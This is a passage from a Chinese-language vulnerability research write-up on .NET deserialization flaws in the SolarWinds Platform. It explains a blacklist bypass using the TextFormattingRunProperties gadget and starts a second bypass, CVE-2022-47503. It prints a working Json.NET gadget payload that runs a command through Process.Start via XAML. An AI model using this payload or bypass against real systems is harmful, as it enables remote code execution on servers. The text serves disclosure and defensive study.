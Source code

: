 ```plain
        return XamlReader.Parse(@string); // [4]
    }
    ...
}
```

代码段 20 TextFormattingRunProperties deserialization gadget

在 \[1\] 处，可以看到该类使用 `Serializable` 属性定义。

在 \[2\] 处，定义了 `Serializable` 构造函数。

在 \[3\] 处，它调用了 `GetObjectFromSerializationInfo` 方法，输入为受攻击者控制。

在 \[4\] 处，攻击者的输入被传递给 `XamlReader.Parse` 方法，从而导致使用 XAML 反序列化小工具的远程代码执行。

由于我们已经分析了 `Json.NET` 的能力，我们知道在反序列化过程中可以调用 `Serializable` 构造函数。基于这一点，即使该小工具没有在 `ysoserial.net` 中实现，也可以利用 `Json.NET`。示例小工具：

```plain
{
    '$type':'Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties,
Microsoft.PowerShell.Editor, Version=3.0.0.0, Culture=neutral,
PublicKeyToken=31bf3856ad364e35',
    'ForegroundBrush':'<ResourceDictionary
      xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\"
      xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\"
      xmlns:System=\"clr-namespace:System;assembly=mscorlib\"
      xmlns:Diag=\"clr-namespace:System.Diagnostics;assembly=system\">
            <ObjectDataProvider x:Key=\"LaunchCalc\" ObjectType = \"{ x:Type
Diag:Process}\" MethodName = \"Start\" >
        <ObjectDataProvider.MethodParameters>
        <System:String>cmd</System:String>
        <System:String>/c whoami >
C:\\Users\\Public\\abcd.txt</System:String>
        </ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </ResourceDictionary>'
}
```

代码段 21 Sample TextFormattingRunProperties gadget for Json.NET

总结一下，我们对黑名单的第一个绕过是基于该列表中的错误，其中提供了 DLL 名称而不是类名。尽管该小工具在 `ysoserial.net` 中没有为 `Json.NET` 实现，但事实证明它可以与有针对性的序列化器一起使用。

如果我们觉得没有其他选择，我们可能要验证小工具的工作原理，可能会发现它也可以用于利用不同的序列化程序。

#### 1.7 SolarWinds Platform – 第二个绕过 – CVE-2022-47503

当将上一个漏洞报告给供应商时，我的第一个想法是：“它可能会被修复在黑名单中的项。”因此，我必须找到不同的方法来利用我们的反序列化漏洞。我的研究想法是：查看 `SolarWinds` 中实现的类，并验证：

-   有没有任何可以由 `Json.NET` 反序列化的类。
-   这会导致一些潜在的危险行为。

经过一段时间，我找到了 `SolarWinds.JobEngine.Engine.WorkerControllerWCFProxy` 类：
